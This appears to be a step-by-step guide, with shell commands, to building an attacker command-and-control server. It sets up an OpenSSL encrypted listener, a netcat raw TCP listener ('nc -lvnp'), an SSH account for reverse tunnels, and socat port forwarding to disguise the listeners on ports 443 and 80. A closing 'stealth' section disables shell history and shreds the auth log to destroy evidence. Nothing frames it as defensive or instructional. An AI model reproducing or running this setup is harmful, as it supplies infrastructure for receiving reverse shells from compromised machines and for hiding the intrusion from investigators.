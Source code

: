 
---

### 1. Minimal system prep

A. Update OS:

```bash
sudo apt update && sudo apt upgrade -y
```

B. Disable unwanted services:

```bash
sudo systemctl disable apache2 --now
```

C. Enable firewall allowing only essential ports:

```bash
sudo ufw allow 22/tcp
sudo ufw allow 443/tcp
sudo ufw enable
```

### 2. Generate ephemeral TLS certs **manually**

A. Create private key:

```bash
openssl genpkey -algorithm RSA -out /tmp/c2.key -pkeyopt rsa_keygen_bits:4096
```

B. Create self-signed cert interactively:

```bash
openssl req -new -x509 -key /tmp/c2.key -out /tmp/c2.crt -days 365
```

### 3. Run OpenSSL encrypted listener

```bash
openssl s_server -quiet -key /tmp/c2.key -cert /tmp/c2.crt -port 8443
```

### 4. Run fallback netcat raw TCP listener

```bash
nc -lvnp 2222
```

### 5. Set up SSH user for reverse tunnels

A. Add user:

```bash
sudo adduser c2user
```

B. Manually add public key to `/home/c2user/.ssh/authorized_keys` (copy-paste)
C. Edit `/etc/ssh/sshd_config` manually, set:

```
PasswordAuthentication no
AllowTcpForwarding yes
GatewayPorts yes
```

D. Reload sshd:

```bash
sudo systemctl reload sshd
```

### 6. Port forwarding with socat — run manually

```bash
socat TCP4-LISTEN:443,fork TCP4:127.0.0.1:8443
```

```bash
socat TCP4-LISTEN:80,fork TCP4:127.0.0.1:2222
```

### 7. Manual health check & restart

If a listener dies: kill and rerun the respective command manually.

### 8. Clean up & stealth

A. Disable bash history in current session:

```bash
unset HISTFILE
```

B. Clear logs manually when needed:

```bash
sudo shred -u /var/log/auth.log
```

---


